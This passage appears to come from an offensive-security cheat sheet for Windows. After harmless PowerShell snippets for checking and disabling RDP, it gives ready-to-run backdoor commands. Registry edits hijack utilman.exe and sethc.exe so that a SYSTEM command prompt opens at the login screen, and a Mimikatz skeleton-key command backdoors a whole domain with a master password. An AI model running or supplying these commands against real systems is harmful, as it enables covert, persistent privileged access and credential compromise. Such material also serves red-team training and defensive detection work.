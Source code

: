 #### Disable RDP on a remote host:

```powershell
$RDPstate = Get-CimInstance -Class Win32_TerminalServiceSetting -Namespace Root\CimV2\TerminalServices -ComputerName $computername
$RDPstate.SetAllowTSConnections(0,0)
```

#### Check RDP status:

```powershell
$RDPstate = Get-CimInstance -Class Win32_TerminalServiceSetting -Namespace Root\CimV2\TerminalServices -ComputerName $ComputerName
$RDPstate.AllowTSConnections
```

The first argument represents AllowTSConnections(0 – disable, 1 – enable) and the second one represents ModifyFirewallException (0 – don’t modify firewall rules, 1 – modify firewall rules). You can read more about it at [https://docs.microsoft.com/en-us/windows/win32/termserv/win32-terminalservicesetting-setallowtsconnections](https://docs.microsoft.com/en-us/windows/win32/termserv/win32-terminalservicesetting-setallowtsconnections)

### RDP Backdoors

#### utilman.exe

After adding this registry key, RDP or physically log into the machine. At the login screen, press `Win+U` to get a cmd.exe prompt as NT AUTHORITY\SYSTEM.

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

#### sethc.exe

After adding this registry key, RDP or physically log into the machine. At the login screen, repeatedly press F5 when you are at the login screen to get a cmd.exe prompt as NT AUTHORITY\SYSTEM.

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

### Skeleton Key

Mimikatz gives you the opportunity to backdoor an entire domain at once by using the skeleton key module.  This must be run by a user with Domain Admin credentials to work properly.

```powershell
# Exploitation Command (run as Domain Admin):
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName $FQDN_of_DC

# Login using the password "mimikatz"
Enter-PSSession -ComputerName $ComputerName -Credential $Domain\$UserName
```
